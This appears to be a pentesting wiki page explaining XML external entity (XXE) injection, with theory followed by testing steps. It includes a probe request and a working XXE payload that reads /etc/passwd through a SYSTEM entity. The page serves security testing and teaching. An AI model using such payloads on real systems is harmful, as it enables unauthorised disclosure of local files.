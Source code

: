 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data ([portswigger](https://portswigger.net/web-security/xxe)).

XXE injections can sometimes lead to [SSRF (Server-Side Request Forgery)](ssrf-server-side-request-forgery.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE (Remote Code Execution) and so on.

## Practice

Testers need to find input vectors and forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced (the value will be replaced in the reflected messages sent by the application like error messages, search results).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE". The tester can then try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

## References

{% embed url="https://portswigger.net/web-security/xxe" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}
